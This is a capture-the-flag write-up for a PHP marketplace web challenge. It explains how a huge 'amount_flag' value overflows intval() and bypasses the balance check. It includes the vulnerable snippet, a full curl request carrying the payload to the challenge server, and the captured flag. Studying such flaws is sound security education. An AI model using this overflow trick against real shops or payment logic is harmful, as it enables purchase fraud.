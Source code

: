 # Challenge Name: MarketFLOW


![date](https://img.shields.io/badge/date-06.03.2022-brightgreen.svg)  
![solved in time of CTF](https://img.shields.io/badge/solved-in%20time%20of%20CTF-brightgreen.svg)   
![category](https://img.shields.io/badge/category-WEB-blueviolet.svg)   
![value](https://img.shields.io/badge/value-20-blue.svg)  


## Description

You have a marketplace, your goal is to buy the flag from the platform, but you have only 100 MAD …

Can you find a solution to buy the flag?

> Code
```php
 if($balance  <= intval($amount_token*$price_per_token + $amount_flag*$price_per_flag))
    {
        die("You don't have the balance");    
    }
    else if($amount_flag >1) echo "The flag is : ".$FLAG;
```
> 
> **Hint :** The Architecture of the WebServer is x64

http://3.8.146.134

## Detailed solution

Start by opening the web page http://3.8.146.134

![image](https://user-images.githubusercontent.com/72421091/157159895-0a091c7a-c5a3-4dc7-8ce1-08aea87c928c.png)

We need 150 to buy the flag but our blance is only 100

From challenge name and hint we need to overflow the variable amount_flag

64bit integer has a maximum value of 9,223,372,036,854,775,807 or double for unsigned

https://developers.google.com/discovery/v1/type-format

![image](https://user-images.githubusercontent.com/72421091/157160293-c3b86e05-dbf9-4de6-8b27-3401d710d0be.png)

We can send a huge number to break the intval function

```bash
curl 'http://3.8.146.134/' \
  -H 'Connection: keep-alive' \
  -H 'Cache-Control: max-age=0' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'Origin: http://3.8.146.134' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' \
  -H 'Referer: http://3.8.146.134/' \
  -H 'Accept-Language: en-US,en;q=0.9,ar;q=0.8,fr;q=0.7' \
  --data-raw 'amount_token=0&amount_flag=111111111111111111111111111111111111111111111111111111111' \
  --compressed \
  --insecure
```

![image](https://user-images.githubusercontent.com/72421091/157160986-c74d7a4a-9199-4abe-89eb-398a767624c5.png)

## Flag

```
CRISIS{xcRAZjkJp2}
```

